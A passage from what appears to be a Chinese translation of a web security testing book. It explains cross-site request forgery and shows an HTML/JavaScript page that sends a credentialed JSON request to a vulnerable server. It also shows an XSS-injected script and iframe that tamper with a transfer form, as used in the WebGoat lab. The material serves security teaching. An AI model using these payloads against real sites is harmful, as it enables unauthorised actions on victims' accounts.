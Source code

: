 如果请求的`Content-Type`头不被允许，而 Web 服务只接受 JSON 或 XML 格式，则需要复制（或创建）生成请求的脚本代码，按照相同的示例进行操作：

```
<HTML> 
  <BODY> 
    <SCRIPT> 
      function send_request() 
      { 
        var xhr = new XMLHttpRequest(); 
        xhr.open('POST', 'http://vulnerable.server/UpdateAddress'); 
        xhr.setRequestHeader('Content-Type', 'application/json'); 
        xhr.withCredentials=true; 
        xhr.send('{"street_1":"First street",
                  "street_2":"apartment 2","zip":54123,
                  "city":"Sin City"}'); 
      } 
    </SCRIPT> 
    <INPUT type="button" onclick="send_request()" value="Submit">  
  </BODY> 
</HTML> 
```

请注意使用了`xhr.withCredentials=true;`。这允许 JavaScript 获取浏览器中存储的目标域的 cookie，并将其与请求一起发送。此外，省略了状态更改事件处理程序，因为您不需要捕获响应。

这种最后的选择有几个缺点，因为当前浏览器和服务器在跨站操作方面对 JavaScript 的行为有限制。例如，根据服务器的**跨域资源共享**（**CORS**）配置，应用程序可能需要在发送跨站请求之前执行预检查。这意味着浏览器将自动发送一个`OPTIONS`请求，以检查该服务器允许的方法。如果请求的方法不允许进行跨域请求，浏览器将不会发送它。另一个保护的例子是浏览器中的**同源策略**，默认情况下，它使浏览器保护服务器的资源免受其他网站的脚本代码访问。

# 使用跨站脚本（XSS）绕过 CSRF 保护

当应用程序容易受到**跨站脚本**（**XSS**）攻击时，攻击者可以利用该漏洞（通过脚本代码）读取包含唯一令牌的变量，并将其发送到外部站点并在新标签中打开恶意页面，或者使用相同的脚本代码发送请求，同时绕过 CORS 和同源策略，因为请求将由同一站点通过本地脚本进行。

让我们看看使用脚本代码使应用程序执行自身请求的情况。您将使用 WebGoat 的*CSRF Token By-Pass*（跨站脚本（XSS）| CSRF Token By-Pass）练习。根据说明，您需要滥用新闻组中的*新帖子*功能允许注入 HTML 和 JavaScript 代码，以执行未经授权的转账请求。

以下屏幕截图显示了转账页面，您可以通过将`&transferFunds=main`参数添加到课程的 URL 中来加载它：

！[](img/00196.jpeg)

如果您检查表单的源代码，您会看到它有一个名为`CSRFToken`的隐藏字段，每次加载页面时都会更改。这似乎是完全随机的：

！[](img/00197.jpeg)

为了在这个表单中执行 CSRF 攻击，您需要利用评论表单中的 XSS 漏洞，使用 JavaScript 将转账表单加载到一个`iframe`标签中。这将设置值为 transfer 并自动提交表单。要做到这一点，请使用以下代码：

```
<script language="javascript"> 
  function frame_loaded(iframe) 
  { 
    var form =iframe.contentDocument.getElementsByTagName('Form')[1]; 
    form.transferFunds.value="54321"; 
    //form.submit(); 
  } 
</script> 

<iframe id="myframe" name="myframe" onload="frame_loaded(this)" 
  src="img/attack?Screen=2&menu=900&transferFunds=main"> 
</iframe> 
```
